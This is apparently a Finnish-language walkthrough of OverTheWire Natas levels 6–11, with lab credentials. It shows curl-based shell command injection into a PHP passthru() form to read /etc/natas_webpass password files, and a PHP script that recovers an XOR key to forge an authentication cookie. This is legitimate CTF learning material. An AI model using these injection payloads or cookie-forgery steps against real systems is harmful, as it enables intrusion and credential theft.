


# Natas lunttilapput - START HERE

Eli aikaisempien harjoittuksien kannalta kertyy ja taso menee vaikeammaksi ja vaikeammaksi. Listataan olennaiset tarkistukset, ettei ole vain yhtä tapaa;

- tarkista sivuston "inspect" eli avaamalla näppäimistöstä F12 , tai joko sivustolta oikea hiirellä "inspect" - ja katso onko koodissa mitään `username:password`
  - tarkista onko tiedoston polussa mitään polkuaja kuten `/file/image.jpg`, eli poista image.jpg , ja mene `/file`- polkuun, ja tarkista onko mahdollista olla .txt tiedostoa tai muuta arkistoa
  - lisää url polkuun `/robots.txt` , jos ois robots tiedosto, niin siellä voi lukea lisä vinkkejä. Todellisuudessaan kaikilla sivustoilla ei ole robots.txt-tiedostoa, koska sen käyttö ei ole pakollista. Jotkut haluavat hakukoneiden indeksoivan kaiken, kun taas toiset eivät tarvitse erityisiä rajoituksia. Ilman tätä tiedostoa hakukoneet voivat silti yrittää indeksoida kaikki löydettävissä olevat sivut, ellei muita estomekanismeja ole käytössä.
 
# curl komentoja 

käytettään -Headeri referenssiä (`-H` - on se lyhenne), ja tässä muutama ovat melko samoja, mutta jotekin se objekti/nimi/muuttuja on erissä järjestyksessä mutta idea on sama;

- `$curl -H "Referer: http://natas7.natas.labs.overthewire.org/" -u "natas7:bmg8SvU1LizuWjx3y7xkNERkHxGre0GS" "http://natas7.natas.labs.overthewire.org/index.php?page=home" `

- `$curl -u natas7:bmg8SvU1LizuWjx3y7xkNERkHxGre0GS "http://natas7.natas.labs.overthewire.org"`


Tämä on yksi, josta selvitettään ja testattaan se salainen koodi joka menee formaattiin , missä sivustossa onkaan ja täsmentyy siihen headeriin html:ään;
  - `curl -X POST -d "secret=FOEIUWGHFEEUHOFUOIU&submit=Submit" -H "Referer: http://natas6.natas.labs.overthewire.org/" -u "natas6:0RoJwHdSKWFTYR5WuiAewauSuNaBXned" http://natas6.natas.labs.overthewire.org/`

## natas hakemisto polku

tässä harjoitus pelissä (level) on hakemisto polku, joka on `etc/natas_webpass/natasX` - X tarkoittaa levelin numeroa, että mitä vaikeammaksi menee ja tämä tuli alkuun level 7:ssa. 

---

# LEVEL 9 - START HERE;

natas9  ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t

Tässä kappaleessa tapahtuu SQL injektiota, ja tässä tasossa käytettään puolikasta kaksoispistettä `;`. Miten tämä liittyy tähän haavoittuvuutteen ja tasoon? Koska SQL-injektiossa liittyy siihen, miten SQL-kyselyt voidaan ketjuttaa tai erottaa toisistaan. SQL-injektiossa hyökkääjä voi käyttää puolikasta kaksoispistettä ; lisätäkseen ylimääräisiä SQL-komentoja alkuperäiseen kyselyyn, mikä voi johtaa tietokannan manipulointiin tai tietojen vuotamiseen.

Ensimmäisenä tarkistettaan koodit joko F12 / hiiren oikean klikkauksella, ja sama idea kuin aikaisempi taso (Level 8), jossa anna salainen koodi niin saadaan Level 10 salasanansa. Seuraavaksi sitten mennään **"view sourcode" välilehteen**.


Sama tässä "view sourcecode" sivuston välilehdessä toi pientä vihjettä, mutta ei paljoo - paitsi "dictionary.txt"


Sijoitin tiedoston polun URL linkkiin, mutta yhtäkkiä se onkin joku yleinen tiedosto kirjasto `/dictionary.txt`


## Level 9 - 1 selvittämistä

Tässä välilehden sivustossa on koodattu PHP-koodkielellä (siinä välissä)

Harjoituksessa tässä tapahtuu periaatteessa rivissä / kohdalla kuin `"passthru("grep -i $key dictionary.txt");"` - joka on haavoittuvuus. Tämä ei tarkista, mitä `$key` muuttujassa on - joten käyttäjä voi lisätä shell-komentoja sen perään puolipisteellä `;`

Tässä harjoituksessa nimenomaan passthru()-funktio on haavoittuva, koska:
- Se suorittaa shell-komennon suoraan ilman suodatusta.
- Käyttäjän syöte ($_REQUEST["needle"]) liitetään suoraan komentoon ilman rajausta tai puskurointia.
- Ja kuten mainittua – puolipiste ; toimii komentojen erottimena Linuxin bashissa, jolloin hyökkääjä voi lisätä omia komentojaan perään.

**Tuotannossa/tosi elämässään**; <br>
Todellisuuden parantaminen, jos puhutaan tietoturvallisesta ja vastuullisesta tavasta käsitellä käyttäjän syötettä, niin `passthru()`-funktion käyttö pitäisi useimmissa tapauksissa poistaa tai ainakin eristää tarkasti.
- älä koskaan päästä käyttäjiä syötettä komentoriville - edes käsitelynsä - jos voi tehdä niin saman asian suoraan PHP:llä.
- Vain rajoittaa käyttäjän syötettä siten, että sitä ei käsitellä tai hyväksyä, ellei se viittaa tiettyyn hyväksyttyyn tiedostoon/hakemistoon tai arvoon. Tämä on yksi suojaustapa.

Tämä koskee myös muita erikoismerkkejä, polkuviittauksia kuten `../secrets.txt` ja sallii vain esim. `dictionary.txt`- tiedoston käsittelyä, ja ei käytä komentorivienkäskyjä **(passthru/exec)**- kaikkiin tehdä turvallisesti PHP:llä ja tämä koskee koko verkkosivustojen arkkitehtuuria.


## Level 9 - 2 - HARJOITUS JATKUU

Periaatteessa menee takaisin etusivulle ja siitä syöttää ja tekee SQL injektiota käyttäen kaksois puolipistettä `;` ja tässä harjoituksessa kokeillaan käyttää Linux terminaalia ja yleisiä komentoja. Muissa linkeissä (netistä) jos tarkistelee ja lunttaa sieltä, niin siellä on muitakin keinoja mm. syöttää siihen kenttään `../../../` ja jne. mutta harjoitus on harjoitus.

Tässä harjoituksessa halutaan mennä kuin aikaisempi tasossa **(level 7)** ideana, että selvitettään `/etc/natas_webpass/natas10` - tämän level 10 tason salasansa. Eli kiinnitettään tähän hakemiston polkuun `/etc/natas_webpass/` - eli **uutta asiaa jälleen kerran**.

Harjoituksessa käytin kenttään; `;ls -l;` - jossa alkaa kaksois puolipiste ja Linux list `-l` (long), ja kuvassa näkyy minkä toistin, niin se tuo sen tuloksensa.

Näiden URL välilehdestä näkee, mitä toistin aikaisemmin ja kentässä on vain pientä toistoa, että mitä syötin.


Tässä välissä menin vähä monimutkaisesti, mutta harjoitus on harjoitus, ja hyväkin ymmärtää ja kulkeakin. Huomioina tässä välissä tarkistellin muita hakemistojen polkua, mutta en ois uskonut tässä hakemiston polussa on muitakin leveliä. Kuitenkin ei kannatta jäädä katsellee niitä, koska tämän *pelin* ideana mennä kohti vaikeammaksi ja vaikeammaksi.


## Level 9 - 3 the real answer

Tämän virallisen helpoiten ja virallinen vastaus on syöttämällä tämä injektio vastaus kentälle, niin sitten toistuu virallinen Level 10:n salasansa eli `; cat /etc/natas/webpass/natas10`


## Level 9 - 4 Kali Linux step - START HERE;

Perus alkuun tarkistuksena;

```
┌──(kali㉿kali)-[~]
└─$ curl -H "Referer: http://natas9.natas.labs.overthewire.org/" -u "natas9:ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t" http://natas9.natas.labs.overthewire.org/
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas9", "pass": "ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t" };</script></head>
<body>
<h1>natas9</h1>
<div id="content">
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Sitten otettaan toi välilehti ja lisätään se perään url:iin, ja tästä ei ole kauheastikaan apua verratuna selaimessa, mutta paitsi kertoi **dictionary.txt** tiedosto on olemassa.

```
┌──(kali㉿kali)-[~]
└─$ curl -H "Referer: http://natas9.natas.labs.overthewire.org/" -u "natas9:ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t" http://natas9.natas.labs.overthewire.org/index-source.html 
<code><span style="color: #000000">
&lt;html&gt;<br />&lt;head&gt;<br />&lt;!--&nbsp;This&nbsp;stuff&nbsp;in&nbsp;the&nbsp;header&nbsp;has&nbsp;nothing&nbsp;to&nbsp;do&nbsp;with&nbsp;the&nbsp;level&nbsp;--&gt;<br />&lt;link&nbsp;rel="stylesheet"&nbsp;type="text/css"&nbsp;href="http://natas.labs.overthewire.org/css/level.css"&gt;<br />&lt;link&nbsp;rel="stylesheet"&nbsp;href="http://natas.labs.overthewire.org/css/jquery-ui.css"&nbsp;/&gt;<br />&lt;link&nbsp;rel="stylesheet"&nbsp;href="http://natas.labs.overthewire.org/css/wechall.css"&nbsp;/&gt;<br />&lt;script&nbsp;src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"&gt;&lt;/script&gt;<br />&lt;script&nbsp;src="http://natas.labs.overthewire.org/js/jquery-ui.js"&gt;&lt;/script&gt;<br />&lt;script&nbsp;src=http://natas.labs.overthewire.org/js/wechall-data.js&gt;&lt;/script&gt;&lt;script&nbsp;src="http://natas.labs.overthewire.org/js/wechall.js"&gt;&lt;/script&gt;<br />&lt;script&gt;var&nbsp;wechallinfo&nbsp;=&nbsp;{&nbsp;"level":&nbsp;"natas9",&nbsp;"pass":&nbsp;"&lt;censored&gt;"&nbsp;};&lt;/script&gt;&lt;/head&gt;<br />&lt;body&gt;<br />&lt;h1&gt;natas9&lt;/h1&gt;<br />&lt;div&nbsp;id="content"&gt;<br />&lt;form&gt;<br />Find&nbsp;words&nbsp;containing:&nbsp;&lt;input&nbsp;name=needle&gt;&lt;input&nbsp;type=submit&nbsp;name=submit&nbsp;value=Search&gt;&lt;br&gt;&lt;br&gt;<br />&lt;/form&gt;<br /><br /><br />Output:<br />&lt;pre&gt;<br /><span style="color: #0000BB">&lt;?<br />$key&nbsp;</span><span style="color: #007700">=&nbsp;</span><span style="color: #DD0000">""</span><span style="color: #007700">;<br /><br />if(</span><span style="color: #0000BB">array_key_exists</span><span style="color: #007700">(</span><span style="color: #DD0000">"needle"</span><span style="color: #007700">,&nbsp;</span><span style="color: #0000BB">$_REQUEST</span><span style="color: #007700">))&nbsp;{<br />&nbsp;&nbsp;&nbsp;&nbsp;</span><span style="color: #0000BB">$key&nbsp;</span><span style="color: #007700">=&nbsp;</span><span style="color: #0000BB">$_REQUEST</span><span style="color: #007700">[</span><span style="color: #DD0000">"needle"</span><span style="color: #007700">];<br />}<br /><br />if(</span><span style="color: #0000BB">$key&nbsp;</span><span style="color: #007700">!=&nbsp;</span><span style="color: #DD0000">""</span><span style="color: #007700">)&nbsp;{<br />&nbsp;&nbsp;&nbsp;&nbsp;</span><span style="color: #0000BB">passthru</span><span style="color: #007700">(</span><span style="color: #DD0000">"grep&nbsp;-i&nbsp;</span><span style="color: #0000BB">$key</span><span style="color: #DD0000">&nbsp;dictionary.txt"</span><span style="color: #007700">);<br />}<br /></span><span style="color: #0000BB">?&gt;<br /></span>&lt;/pre&gt;<br /><br />&lt;div&nbsp;id="viewsource"&gt;&lt;a&nbsp;href="index-source.html"&gt;View&nbsp;sourcecode&lt;/a&gt;&lt;/div&gt;<br />&lt;/div&gt;<br />&lt;/body&gt;<br />&lt;/html&gt;<br /></span>
</code>
```


Huomiona tuossa sivustossa voi olla eri ja pitää tehdä vertailu, että tarkistaa/muuttaa tuota `curl`- komentoa vähäsen..

Tämä on se html formaatti lomake kenttä koodi;
```
            <form>
                Find words containing: <input name=needle>
                <input type=submit name=submit value=Search>
                <br>
                <br>
            </form>
```

Nyt muutettuna ja ainakin toimii tämä `ls -l` linux yleinen komento tarkistettaan hakemiston listauksia ja nykyisestä polusta. **Mitä tässä on muutettu?** Ennen `-d "secret=;ls -l;&submit=submit"` --> after ; `-d "needle=xyz;ls -l;&submit=submit"`

```
┌──(kali㉿kali)-[~]
└─$ curl -X POST -d "needle=;ls -l;&submit=submit" -H "Referer: http://natas9.natas.labs.overthewire.org/" -u "natas9:ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t" http://natas9.natas.labs.overthewire.org/ 
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas9", "pass": "ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t" };</script></head>
<body>
<h1>natas9</h1>
<div id="content">
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
total 460
-rw-r----- 1 natas9 natas9 460878 Apr 10 14:18 dictionary.txt
-rw-r--r-- 1 root   root     2924 Apr 10 14:18 index-source.html
-rw-r----- 1 natas9 natas9   1185 Apr 10 14:18 index.php
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```


Myös muita samankaltaisia toimivia komentoa;
-  `curl -X POST -d "needle=;pwd;&submit=submit" -H "Referer: http://natas9.natas.labs.overthewire.org/" -u "natas9:ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t" http://natas9.natas.labs.overthewire.org/`


**Miksi tässä ei mainittu lisä vihjeitä?**

Tämä on tahallista. Tästä tasosta eteenpäin *OverTheWire* alkaa siirtyä vähemmän kädestä pitäviin tehtäviin ja alkaa testata. Tässä level 9:ssä vaikka lähdekoodissa ei suoraan mainita salasanaa tai sen sijaintia, sen odotetaan löytyvän tiedostosta muodossa, mutta jatkossa voi olla jouduttaan käyttää tätä tallennettua tiedoston polkua `/etc/natas_webpass/natas10`.

Nyt ainakin alkoi pelittää ja kertomaan sen polun ja tämän kanssa pitää olla tarkanna komennon syöttämisen kannalta, ja tuossa tuli kaikki natas tasot siksi laitoin piste piste väliin (turhia yli määräisiä rivien toistoja).

```
┌──(kali㉿kali)-[~]
└─$ curl -X POST -d "needle=;ls /etc/natas_webpass;&submit=submit" -H "Referer: http://natas9.natas.labs.overthewire.org/" -u "natas9:ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t" http://natas9.natas.labs.overthewire.org/ 
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas9", "pass": "ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t" };</script></head>
<body>
<h1>natas9</h1>
<div id="content">
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
natas0
natas1
natas10
...
natas6
natas7
natas8
natas9
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

## Level 9 - Miniyhteenveto
tässä kokonaisuudessaan ei tapahtunut SQL injketiota, vaan enemmin komentorivin (shell) - Linux injektiota (command injection / linux shell injection). Koska erona SQL injektiossa käytettäisiin heitomerkkiä `'` ja esim. `' OR '1'='1` ja jne, mutta tässä terminaalissa käytettiin alku ja päättyvä puolikas kaksoispiste.

**Miksi näin, ja miksi tämä komentoinjektiota?** 
Koska yhdessä sivustossa tuli PHP koodirivssä kuin `passthru("grep -i $needle dictionary.txt");` ja siksi käyttäjän syöte päätyy osaksi shell-komentoa ilman suojausta ja se ei liittyisikään tietokantaan eikä SQL lauseisiin ja siksi kyseessä on puhdas **command injection**. 

Sekä tässä tapahtui  shell-komentoa (`grep`) ja `passthru()`-funktiota — mitään tietokantaa ei ole mukana.


---

# LEVEL 10 - START HERE;


natas10 t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu

Nyt mennään sama idea kuin aikaisempi taso (**level 7 ja 9**), mutta nyt tässä tapahtuu yhdessä *view sourcecode* yhdessä PHP koodikielessä on estetty tiettyjä erikoismerkkejä. 


periaatteessa tämä on se linux shell komentojen injektio estäminen eli ei voida käyttää enään `;` puoli kaksoispistettä ja siksi siinä lukee `if(preg_match..blahlbah)` tiettyä erikoismerkkejä estetty ja on mahdollista muita erikoismerkkiä saattavat toimia.


Esim. kokeilin jotakin erikoismerkkiä, mitä tuossa PHP-koodissa on määritetty IF-lausessa. Siksi toistuu että **"input contains an illegal characters!"**


Vain rajoitettu/tietty erikoismerkki toimii esim. tähti `*` --> `*ls -l*` ja voi olla jotakin erikoismerkkiä jos ovat kaksi yhdessä esim. piste ja tähti `.*` ja muita voi testata, mutta oman testauksena tässä harjoituksen levelissä menin jopa `.* $`


Muutamista ja netistä etsitty vihjeitä, testattuna ainakin; `.* cat /etc/natas_webpass/natas11 .* ` - ja välilyönnitkin pitää olla mukana, jotta se formaatti ymmärtää, ja samankaltainen toimivakin `.* cat /etc/natas_webpass/natas11 $`.

Tässä on se seuraavan levelin Natas11 salasansa.


Muita erikoismerkin testauksena ainakin samankaltainenkin toimii eli näkee URL pääteestäkin (aikaisempi sama teksti); `.* cat /etc/natas_webpass/natas11 $`. Alkuun menevä `.*` ja päättyy dollari merkkiinsä.


## Level 10 - Kali Linux version 

Periaatteessa jos mentäisiin linux kautta niin menisi sama ideana kuin aikaisempi level 7 ja 9 mukaan, että joutu syöttää ja testailla useampi kerta sitä shell injektiota. Komennossa jouduttaisiin käyttää sitä formaatti lomaketta, ja muuttaa sitä komennon käskyä vähäsen.

Tämä on se komento, mutta mikä sen formaattin avainsana onkaan, niin sitä pitää tarkistaa ja sama pätee erikoismerkien estämiset.
`curl -X POST -d "needle=;ls -l;&submit=submit" -H "Referer: http://natas9.natas.labs.overthewire.org/" -u "natas9:ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t" http://natas9.natas.labs.overthewire.org/`

---

# Level 11 - START HERE

natas11 - UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk

toi background color "#ffffff" on jo oletuksena valmiina kirjautuneena tähän level 11 sivustoon ja etusivun oletuksen tekstin mukaan lukee näin ja vihjeenä *"Cookies are protected with XOR encryption"* 




kokeilin toista väriä, et esim. joku risuaitta (#) jotakin, niin se kyllä toimii ja vain vaihtaa background color - ei mitään erikoista


tarkistellaan viewsourcea seuraavaksi;
ainakin ekana silmäyksellä näkyvin PHP koodia on tullut enemmän ja paljon funktiota ja if-else toimintoja. Ainakin muutamia toimintoja  kuten; ettei näytetä salasanaa jos syöttääisi `showpassword` , XOR-salaus (salaa tai purkaa tietoa XOR-opereaatiolla), tarkistaa käyttäjn evästeen dataa jotain sisältöä jsa saveData() - joka tallentaa kaikki tiedot uudelleen evästeeseen.

ehkä tässä on jotakin vihjettä ja suoraan annettukin, joka liittyy evästeeseen ja XOR-salausta. Tässä idean on miten XOR-salausta voidaan murtaa jos tunetaan sekä salattu viestiä aj alkuperäisen viestiä (known plaintext attack)


## Level 11 - 2 selvittämistä ja steppiä

Periaatteessa tuossa välilehden "view sourceode" - siellä PHP kielessä on annettu vihjeenä ja selvittämistä ja lukemista tässä vaattiikin.


Tässä rivissä on määritetty oletus väri on valkoinen `#fffff`

`$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");`


Tässä PHP-koodi rivissä kokoajan puhutaan sanalla `$data` , joka merkitsee jotakin ja viittaakin jotakin, että ohjaa sitä sanaa `bgcolor`.

```
<h1>natas11</h1>
<div id="content">
<body style="background: <?=$data['bgcolor']?>;">
Cookies are protected with XOR encryption<br/><br/>

<?
if($data["showpassword"] == "yes") {
    print "The password for natas12 is <censored><br>";
}
```


Seuraavissa yhdessä riveissäkin on nimetyä funktiota, että tallentaa datansa ja jotakin asettaa evästettä ja muuttoksensa koskien salausmenetelmää **base64_encode(xor_encrypt(json_encode))**

```
function saveData($d) {
    setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
}
```


Tässä funktiossa jotenkin se on muutettu tai tallennettu evästeeseen, että jos avainsana `data` täsmentyy muutettuksi salausmentelmään eli muutettu salaiseksi koodiksi niin näyttää sen virallisen salasanansa

```
function loadData($def) {
    global $_COOKIE;
    $mydata = $def;
    if(array_key_exists("data", $_COOKIE)) {
    $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
    if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
        if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
        $mydata['showpassword'] = $tempdata['showpassword'];
        $mydata['bgcolor'] = $tempdata['bgcolor'];
        }
    }
    }
    return $mydata;
}
```

## XOR cipher - lyhyesti
XOR cipher on yksinkertainen salaustekniikka, joka perustuu bitin vertailuun ja manipulointiin. Se toimii käyttämällä XOR-operaatiota (engl. exclusive OR) salaamiseen ja purkamiseen.


**Miten se toimii?**
Jokainen bitti (0 tai 1) salattavassa tiedossa yhdistetään avaimen bittiin käyttämällä XOR-operaatiota.

XOR-operaatio palauttaa 1, jos kaksi bittiä ovat erilaisia, ja 0, jos ne ovat samoja.

Salaaminen ja purkaminen ovat symmetrisiä: kun salattu tieto XORataan samalla avaimella, alkuperäinen tieto palautuu.

Esim. A kirjain (ASCII: 01000001 - eli bitteinä) ja käytettään XOR salauksen avainta (00101100) 

```
01000001  (A)
XOR 00101100  (avain)
------------
01101101  (salattu data)
```

Vaikka XOR cipher on helppo ja nopea, se ei ole kovin turvallinen yksinään, koska yksinkertainen avaimen toistaminen tekee sen haavoittuvaksi hyökkäyksille. Sitä käytetään usein osana monimutkaisempia kryptografisia järjestelmiä.

XOR cipher perustuu siihen, että valitset avaimen, joka voi olla mikä tahansa bittijono. Tämä avain ei ole kiinteä, eli se voi vaihtua joka kerta, kun haluat salata uuden sanan tai lauseen.

## Level 11 - 2 salausmentelmän prosessi

Takaisin salausmentelmän prosessiin, ja perus etsii lisätietoa netistä kuinka tämä taso-harjoitus on ratkaistettukaan ja tapoja on monta. PHP-koodissa on määritetty näin; `$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");` - niin tätä yrittään ratkaista.

Periaatteessa oletuksena se on antanutkin vihjeenä, että ekana kirjauttuessa sivustoon "background color: #fffff" - normaalisti syötin satunnaisen värikoodin niin se ainakin tallensin evästeeksi (cookies). Seuraavan kerran kun menen tähän samaan level 11 sivustoon niin se on se sama satunnainen väri minkä annoin esim. vaaleasininen.

**cookies eväste**
Tässä osa-aleuissaan tapahtuu; eväste, XOR-salaus ja tarkkan JSON-muoto. 
Chrome evästeen tarkistus steppi; F12 >> application (sovellus) >> "Storage" >> "coookies". 

Tämän valkoinen `#fffff` sen cookies value tallennettu data joka on URL-enkoodattu(encoded) arvo `HmYkBwozJw4WNyAAFyB1VUcqOE1JZjUIBis7ABdmbU1GIjEJAyIxTRg%3D` - koska merkki `=` joka on korvattu muodolla `%3D`.


Kun laitettaan **show URL decoded** niin lukee näin; `HmYkBwozJw4WNyAAFyB1VUcqOE1JZjUIBis7ABdmbU1GIjEJAyIxTRg=` - koska tämä on purettu (decoed) arvo. Pieni huomiona evästeiden luku saattaa muuttua mm. palvelimen/sivuston/järjestelmän päivityksen takia, että ei mene ihan kuin nettien löytämien ohjeiden mukaan.

**Miksi näin tehdään?**
Joissakin tapauksissa evästeen sisältö voi sisältää erikoismerkkejä (esim. =, ;, &), jotka voisivat aiheuttaa ongelmia HTTP-otsikoissa, joten ne enkoodataan turvalliseen URL-muotoon. Selain ja palvelin osaavat dekoodata ne takaisin oikeaan muotoon.

Seuraavaksi huomattaan PHP-funktiossa luke näin `showpassword=no` - mutta me haluttaan muuttaa se `showpassword=yes`. Nyt jouduttaan käyttää XOR decryptiä, mutta ongelmana meillä ei ole avainta, ja joten jouduttaan siksi käyttää tätä funktionkutusa `setcookie("data", base64_encode(xor_encrypt(json_encode($d))));`



Tässä harjoituksessa on menty monta tapaa, mutta suurin osatkin menee vaikeaksi eli ideana on vain muuttaa tämä funktio osuus `{"showpassword":"yes","bgcolor":"#ffffff"}` muotoon, ja siitä saa sen evästeet (cookies value) ja korvatakanseen kieletyn `no` osuuden. Niin näin saattaisiin seuraavan levelin 12 salasansa. 

- Yksi tapa on curl komentoja löytyy, mutta se menisi näin sitten: `$curl -u natas11:UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk -b "data=<newCookiesValue>" http://natas11.natas.labs.overthewire.org`

- Toinen tapa avaa F12/inspect DEV tools-välilehden, josta ensin pitää sallia copy paste ja sitten syöttämällä uuden evästeen luvun ja päivittääkseen sivuston sivun.
```
allow pasting
document.cookie = "data=HmYkBwozJw4WNyAAFyB1VUc9MhxHaHUNAic4Awo2dVVHZzEJAyIxCUcY";
location.reload();
```
 


- Kolmas tapa on sama kuin toinen, mutta DEV tools-välilehdestä mentäisiin **Application** >> **Storage** >> **Cookies** ja kaksois klikkauks korvatakseen uuden eväste value siihen ja päivättää sivuston.


## Level 11 - 2.5. salauskoodin muutos - START HERE

Eli Tähän välikappale koskien tuota evästeen lukua (cookies value) muutosta, että miten se menekään, ja toki jälkimmäisen PHP skriptiä voi käyttää toisen vaihtoehtona että ei ole oikeata tai väärää menetelmää, kunhan pääsee sinne maaliin asti. 

Ekana riittää netistä jonkun _online_ PHP koodipätkän ja pohjautuu HTML:ään esim. W3schools Tämä on se array-funktio osuus josta halutaan muuttaa jatkaista `no` --> `yes`.


seuraavaksi käytettään **Base64** + XOR cipher:iä, että annettaan aikaisempi PHP annettu koodi ja siitä tulotettuna ulos (output)  annetuksi avain koodi ja tätä joudutaan pilkkoa osiinsa ja siksi otettaan vain `eDWo` 


Tämä on vain kuin kääteisenä, että varmistan se on oikein ja tätä voi skippata (alempi kuva) 


Viimeisenä muutettusta otettaan käyttöön: XOR (avain koodi + UTF8 muodossa) + Base64, että tulostettuna saadaan se `yes` muutoksensa ja siksi Input tulee toi pieni koodipätkä


## Level 11 - 3 viimeinkin

Periaatteessa tämän alkuperäisen

Mentiin yhden steppin mukaan niin syötettiin PHP-scripti koodilla ja sillä päästiin selville kuitenkin maaliin asti. 

Eli Ekana tässä PHP koodi skriptissä tapahtuu näin; <br>
✅ "cookie se value + xor encryptaus + base64 enkoodaus" = **valmis eväste**

```
<?php

function xor_encrypt($in) {
    $key = json_encode(array( "showpassword"=>"no", "bgcolor"=>"#ffffff"));
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

//original cookie value 
$cookie = "HmYkBwozJw4WNyAAFyB1VUcqOE1JZjUIBis7ABdmbU1GIjEJAyIxTRg%3D";
echo "Key = ";
echo xor_encrypt(base64_decode($cookie))

?>
```

tuloksena on `Key = eDWoeDWoeDWoeDWoeDWoeDWoeDWoeDWoeDWoeDWoeL`

Tässä avaimen tuloksen tässä on toistettu `eDWo` muutaman kerran siksi pilkkosin näin luettavakseen `eDWo eDWo eDWo eDWo eDWo eDWo eDWoeDWoeDWoeDWoeL` 

**Seuraavaksi** 
Muutettaan näin;  array -> JSON -> XOR -> base64 niin saadaan uusi **data=-evästeen** oikeassa muodossa. Tämä on kuin samalainen aikaisempi skripti, mutta muutettu vähäsen. Sekä tässä skriptissä `xor_encrypt`-funktion sisällä oleva `$key = "eDWo"` on kovakoodattu avain, joka vaikuttaa salauksen lopputulokseen. Tämän avain perustuu ylempään tulokseensa siksi otin siitä yhden osan ja näin ollen päästään vielä viimeiseen asti. 

```
<?php

function xor_encrypt($in) {
    $key = "eDWo";
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

